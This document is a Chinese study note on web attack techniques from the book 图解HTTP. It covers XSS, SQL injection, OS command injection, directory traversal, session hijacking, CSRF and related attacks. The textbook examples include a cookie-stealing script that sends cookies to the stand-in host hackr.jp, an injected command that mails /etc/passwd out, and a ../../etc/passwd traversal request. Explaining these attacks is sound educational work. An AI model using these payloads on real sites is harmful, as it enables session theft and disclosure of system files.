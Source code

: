 ```yaml
---
title: 11.Web 的攻击技术
date: 2020-11-29 01:05:47
permalink: /pages/a5ee56/
categories: 
  - 计算机基础
  - 《图解HTTP》笔记
tags: 
  - null
---
```


## 思维导图

> 思维导图来自： [霸天的前端笔记](https://www.zhihu.com/column/c_57862727)

![preview](./assets/img/v2-c15130d9bcc0d91811e94d97286362f8_r.jpg)

![preview](./assets/img/v2-f7acf7cc1fa50e5add19a5caa6d0cf7d_r.jpg)

![preview](./assets/img/v2-e1002463a98b27c74bde5dda9c855575_r-20201129010743975.jpg)

## 针对 Web 的攻击模式

![image-20201129012032325](./assets/img/image-20201129012032325.png)

**被动攻击的模式**：

![image-20201129012225331](./assets/img/image-20201129012225331.png)

**利用用户的身份攻击企业内部网络**

可以攻击企业内网

![image-20201129012336194](./assets/img/image-20201129012336194.png)

## 因输出值转义不完全引发的安全漏洞

### 什么是输出值不转义？

Web 应用的安全对策：

- 客户端验证：客户端(JavaScript)验证主要是尽早辨识输入错误，UI 体验的功能
- Web端验证
  - 输入值验证：业务逻辑检查 & 字符编码检查等
  - **输出值转义：转义不完全时，会因触发攻击者传入的攻击代码**

### 1. 跨站脚本攻击（Cross-Site Scripting，XSS）

**什么是XSS**：通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。

**XSS的后果**：

- 虚假输入表单骗取个人信息
- 窃取用户Cookie值
- 显示伪造的文章或文章

**XSS案例**：

1.表单骗取个人信息

```html
<div class="logo"> 
  <img src="/img/logo.gif" alt="E! 拍卖会" />
</div> 

<form action="http://example.jp/login" method="post" id="login">     
    <div class="input_id"> ID 
        <input type="text" name="ID" value="">
        <script>var f=document.getElementById("login");</script>
    </div>
</form>
<!-- input 后面带着 script 脚本，就不知不觉获取了信息了 --!>
```

2.Cookie 窃取攻击

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
//文件: http://hackr.jp/xss.js
var content = escape(document.cookie); 
document.write("<img src=http://hackr.jp/?"); document.write(content); 
document.write(">");
// 通过这种方式，就以请求图片的方式，把自己的Cookie信息发送出去了。
```

### 2. SQL注入攻击（SQL Injection）

**SQL 注入** 是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

**SQL注入的案例**：

**正常的请求**：`http://example.com/search?q=小米`

对应的SQL为 `select * from bookstort where author=小米 and flag=1 ` 

**SQL注入请求**：`http://example.com/search?q=小米 --`

对于SQL为 `select * from bookstort where author=小米 -- and flag=1`

由于SQL 中 `--` 是注释，就把后面的 flag 条件给省略了。

如果这个条件是一些保密信息的限制条件的话，就容易造成损失。

### 3. OS 命令注入攻击（OS Command Injection）

**OS命令攻击** 是通过 Shell 来调用操作系统命令。

**OS注入攻击的案例**:

```php
// php中发送邮件的一段代码
my $adr = $q->param('mailaddress'); 
open(MAIL, "| /usr/sbin/sendmail $adr");
```

正常是邮箱地址 `hack@example.jp`

OS注入是 `; cat /etc/passwd | mail hack@example.jp` ，拼接后就是

`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`

带入了系统的账户信息一起发送了

### 4. 邮件首部注入攻击（Mail Header Injection）

邮件首部注入是指通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

### 5. 目录遍历攻击（Directory Traversal）

目录遍历攻击是指对本无意公开的文件目录， 通过非法截断其目录路径后，达成访问目的的一种攻击。案例如下:

```
http://example.com/read.php?log=0401.log # 正常
http://example.com/read.php?log=../../etc/passwd # 获取账户信息
```



## 因设置或设计上的缺陷引发的安全漏洞

- **强制浏览（Forced Browsing）**：强制浏览漏洞是指从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

  比如对用户的私密照片没有做权限管理，使得任何人只要知道URL就可以访问。

- **不正确的错误消息处理（Error Handling Vulnerability）**: 一些Web应用的错误信息包含了对攻击者有利的信息。

- **开放重定向功能（Open Redirect）**：对指定的任意 URL 作重定向跳转，有可能导致用户被诱导到恶意Web网站

## 因会话管理疏忽引发的安全漏洞

- **会话劫持（Session Hijack）**：会话劫持是指攻击者通过某种手段拿到了用户的会 话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

  获取 SessionID 的方式有：

  - 非正规的生成方法推测会话 ID
  - 窃听或 XSS 攻击
  - 会话固定攻击（Session Fixation）强行获取会话 ID：强迫用户使用自己固定的SID进行登录

- **跨站点请求伪造（Cross-Site Request Forgeries，CSRF）**：强制对 **已完成认证的用户** 进行非预期的个人信息或设定信息等某些状态更新。
  比如嵌入某些修改信息的URL，用户在不知觉的情况下就实现了修改的操作，网站也无法区分。

## 其他安全漏洞

### 密码破解

一般破解的手段：

- 试错法：穷举、字典攻击（其他Web网站的密码）
- 已加密密码进行破解：网站一般不会以明文存储密码，而是通过 散列函数 或 加盐的操作进行加密。此类的破解方式有：穷举、彩虹表、获取密钥

### 点击劫持

通过透明遮罩覆盖原先的图像

### DoS 攻击（Denial of Service attack）

**DoS 攻击**是一种让运行中的服务呈停止状态的攻击。服务器无法区分正常请求和攻击请求，使得服务瘫痪。

### 后门程序（Backdoor）

后门程序是指开发设置的隐藏入口，用于调试和测试使用。